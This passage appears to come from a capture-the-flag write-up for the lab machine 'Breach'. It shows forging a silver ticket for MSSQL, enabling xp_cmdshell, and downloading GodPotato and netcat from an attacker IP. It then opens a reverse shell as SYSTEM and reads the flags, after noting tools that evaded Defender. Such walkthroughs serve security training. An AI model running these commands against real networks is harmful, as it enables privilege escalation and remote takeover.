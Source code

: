 Successfully **forged a ticket with administrative permissions** for the MSSQLSvc SPN.

```bash
impacket-ticketer -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn 'MSSQLSvc/breachdc.breach.vl:1433' -nthash <REDACTED> -domain 'breach.vl' administrator 
[*] Saving ticket in administrator.ccache
```

Connecting to the MSSQL server no longer blocks the execution of commands.

```
KRB5CCNAME=administrator.ccache impacket-mssqlclient breach.vl/administrator@breachdc.breach.vl -k -no-pass

SQL (BREACH\Administrator  dbo@master)> enable_xp_cmdshell
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell whoami  
breach\svc_mssql

SQL (BREACH\Administrator  dbo@master)> xp_cmdshell whoami /priv                                                                            
Privilege Name                Description                               State        
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...
```

Defender was deleting RoguePotato and PrintSpoofer, but [GodPotato](https://github.com/BeichenDream/GodPotato) + [nc.exe](https://github.com/int0x33/nc.exe/) worked to **abuse the SeImpersonatePrivilege**.

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell powershell -c "iwr -uri http://10.8.1.206/GodPotato-NET4.exe -outfile c:\users\public\GodPotato-NET4.exe"
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell powershell -c "iwr -uri http://10.8.1.206/nc64.exe -outfile c:\users\public\nc64.exe"

SQL (BREACH\Administrator  dbo@master)> xp_cmdshell c:\users\public\GodPotato-NET4.exe -cmd "cmd /c c:\users\public\nc64.exe -e cmd 10.8.1.206 4444"
```

With a reverse shell as SYSTEM we can read both flags pwning this cool box. GGs!

```
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.1.206] from (UNKNOWN) [10.10.98.137] 52652

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
BREACHDC

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
VL{<REDACTED>}

c:\>type c:\share\transfer\julia.wong\local.txt
VL{<REDACTED>}
```